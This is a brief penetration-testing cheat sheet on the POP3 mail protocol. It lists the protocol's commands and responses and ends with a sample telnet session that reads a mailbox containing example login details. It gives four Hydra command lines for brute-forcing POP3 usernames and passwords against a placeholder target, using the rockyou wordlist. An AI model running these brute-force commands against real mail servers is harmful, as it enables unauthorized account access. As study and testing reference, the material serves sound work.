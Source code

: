 ### **POP3 BASICS**

1.  Purpose: An application layer protocol used for retrieving email messages from a mail server.
2.  Port: Operates on TCP port 110.
3.  Model: Follows a client-server model, where the client connects to the mail server to retrieve emails.

### **POP3 COMMANDS**

1.  USER: Identifies the username or email address of the client.
2.  PASS: Provides the password for authentication.
3.  LIST: Retrieves a list of all emails on the server, along with their sizes.
4.  RETR: Retrieves a specific email from the server based on its index.
5.  DELE: Marks a specific email for deletion on the server.
6.  NOOP: No operation command, used to keep the connection alive.
7.  QUIT: Terminates the POP3 session and closes the connection.

### **BRUTE-FORCING POP3 CREDENTIALS**

1. Unknown User
	`hydra -L user.txt -p "Password" -f [TARGET-IP] pop3`
2. Unknown Password
	`hydra -l user -P /opt/rockyou.txt -f [TARGET-IP] pop3`
3. Unknown User and Password
	`hydra -L user.txt -P /opt/rockyou.txt -f [TARGET-IP] pop3`
4. Different Port
	`hydra -l user -P /opt/rockyou.txt -f [TARGET-IP] pop3 -s 9999`

### **POP3 RESPONSES**

1.  +OK: Indicates a successful response from the server.
2.  \-ERR: Indicates an error response from the server.

### **EXAMPLE**

```
hackfast@kali:~$ telnet [IP-ADRESS] 110
 +OK alpha POP3 service (JAMES POP3 Server 2.3.2) active
 USER mrrobot
 +OK
 PASS secretpassword
 +OK Welcome mrrobot

 list

 +OK 2 1807
 1 786
 2 1021

 retr 1

 +OK Retrieving message
 From: mrrobot@hackfa.st
 Hello Mr. Robot,

 Below is your remote desktop login info. Please remember it!
 username: mrrobot
 password: S3cur3P@ssw0rd
```
